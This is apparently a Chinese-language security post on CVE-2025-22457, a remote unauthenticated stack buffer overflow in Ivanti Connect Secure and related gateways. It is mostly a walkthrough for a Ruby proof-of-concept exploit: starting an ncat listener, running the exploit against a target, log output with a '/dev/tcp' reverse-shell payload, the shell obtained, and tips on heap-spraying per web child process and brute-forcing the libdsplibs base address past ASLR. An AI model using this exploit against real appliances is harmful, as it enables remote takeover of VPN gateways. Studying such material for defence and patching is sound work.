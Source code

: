 #  CVE-2025-22457   
 Khan安全团队   2025-04-13 02:36  
  
远程未经身份验证的基于堆栈的缓冲区溢出漏洞影响 Ivanti Connect Secure、Pulse Connect Secure、Ivanti Policy Secure 和 ZTA 网关。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV22lv9nuQ2RNSCtD6UuMnCEZmM0LfjbY3G7cDCzg9UJEFgpzLvv9rvXW9WPdxUanb9Siaoq4piaxgmg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV22lv9nuQ2RNSCtD6UuMnCE1WutGrEjXHhEib0f5xc7dYrruD2hFAlibvXAqAQVpSiaANNzwNyb3HQsw/640?wx_fmt=png&from=appmsg "")  
  
  
针对存在漏洞的 Ivanti Connect Secure 目标（版本 22.7r2.4）运行此脚本，如下所示：  
  
启动 netcat 监听器来捕获反向 shell。  
```
C:\>ncat -lnvkp 8080
```  
  
运行漏洞利用程序并强制执行 ASLR（这会很慢）  
```
C:\>ruby CVE-2025-22457.rb -t 192.168.86.111 -p 443 --lhost 192.168.86.35 --lport 8080
[2025-04-10 16:21:13 +0100] [+] Targeting https://192.168.86.111:443/
[2025-04-10 16:21:13 +0100] [+] Payload: bash -i >& /dev/tcp/192.168.86.35/8080 0>&1
[2025-04-10 16:21:13 +0100] [+] Detected version 22.7.2.3597
[2025-04-10 16:21:13 +0100] [+] Starting...
[2025-04-10 16:21:13 +0100] [+] Attempt 0, trying libdsplibs.so @ 0xf64ca000
[2025-04-10 16:21:13 +0100]     Making connections...
[2025-04-10 16:21:18 +0100]     Spraying...
[2025-04-10 16:22:27 +0100]     Triggering..
```  
  
当它起作用时，你将获得一个反向shell。  
```
C:\>ncat -lnvkp 8080
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 192.168.86.111.
Ncat: Connection from 192.168.86.111:20746.
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.2$ id
id
uid=104(nr) gid=104(nr) groups=104(nr)
bash-4.2$ uname -a
uname -a
Linux localhost2 4.17.00.35-selinux-jailing-production #1 SMP Tue Jun 18 16:25:33 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
bash-4.2$
```  
  
Web子进程  
  
根据底层硬件，目标设备可用的 CPU 数量将决定二进制文件将生成的子进程数量/home/bin/web。由于所有传入的 HTTPS 请求都将均匀分布在这些子进程之间，我们需要考虑到这一点，并对所有子进程执行足够次数的堆喷射。我们需要这样做，因为当我们触发漏洞时，我们无法知道会在哪个子进程中触发它。因此，我们需要在每个子进程中都进行堆喷射。  
- 1 个 vCPU - 1 个 Web 进程，无子进程  
- 2 个 vCPU - 1 个 Web 父节点，2 个子节点  
- 4 个 vCPU - 1 个 Web 父级，4 个子级（这是默认值，对应于 Ivanti Connect Secure ISA4000-V 平台）  
- 8 个 vCPU - 1 个 Web 父节点，8 个子节点（这对应于 Ivanti Connect Secure ISA6000-V 平台）  
例如，在具有 root 权限的易受攻击的设备中，运行以下命令查看子进程的数量/home/bin/web：  
```
bash-4.2# ps -Al | grep web
ps -Al | grep web
4 S   104  3012  2394  0  80   0 - 26313 -      ?        00:00:00 web
4 S   104  3013  2394  0  80   0 - 24931 -      ?        00:00:00 web80
1 S   104  4947  3012  2  80   0 - 28209 -      ?        00:01:27 web
1 S   104  5217  3012  1  80   0 - 31527 -      ?        00:00:49 web
1 S   104  5695  3012  0  80   0 - 28199 -      ?        00:00:00 web
1 S   104  5715  3012  0  80   0 - 28199 -      ?        00:00:00 web
bash-4.2#
```  
  
您可以通过参数指定预期的网络子项数量--web_children，例如：  
```
C:\>ruby CVE-2025-22457.rb -t 192.168.86.111 -p 443 --lhost 192.168.86.35 --lport 8080 --web_children 4
```  
  
libdsplibs基地址  
  
如果您在本地系统上测试 PoC，可能需要避免暴力破解libdsplibs基址。在这种情况下，您可以通过参数将已知的基址传递给 PoC --libdsplibs。例如，在已 root 权限的易受攻击设备中，运行以下命令：  
```
bash-4.2# ps -A| grep web
ps -A| grep web
 3200 ?        00:00:01 web80
20536 ?        00:00:02 web
bash-4.2# cat /proc/20536/maps | grep libdsplibs
cat /proc/20536/maps | grep libdsplibs
f642e000-f7994000 r-xp 00000000 fc:02 171879                             /home/lib/libdsplibs.so
f7994000-f7995000 ---p 01566000 fc:02 171879                             /home/lib/libdsplibs.so
f7995000-f79aa000 r--p 01566000 fc:02 171879                             /home/lib/libdsplibs.so
f79aa000-f79e3000 rw-p 0157b000 fc:02 171879                             /home/lib/libdsplibs.so
bash-4.2#
```  
  
然后，您可以将已知的基地址传递给 PoC，如下所示：  
```
C:\>ruby CVE-2025-22457.rb -t 192.168.86.111 -p 443 --lhost 192.168.86.35 --lport 8080 --web_children 4 --libdsplibs 0xf642e000
[2025-04-10 16:21:13 +0100] [+] Targeting https://192.168.86.111:443/
[2025-04-10 16:21:13 +0100] [+] Payload: bash -i >& /dev/tcp/192.168.86.35/8080 0>&1
[2025-04-10 16:21:13 +0100] [+] Detected version 22.7.2.3597
[2025-04-10 16:21:13 +0100] [+] Starting...
[2025-04-10 16:21:13 +0100] [+] Attempt 0, trying libdsplibs.so @ 0xf642e000
[2025-04-10 16:21:13 +0100]     Making connections...
[2025-04-10 16:21:18 +0100]     Spraying...
[2025-04-10 16:22:27 +0100]     Triggering...
```  
  
  
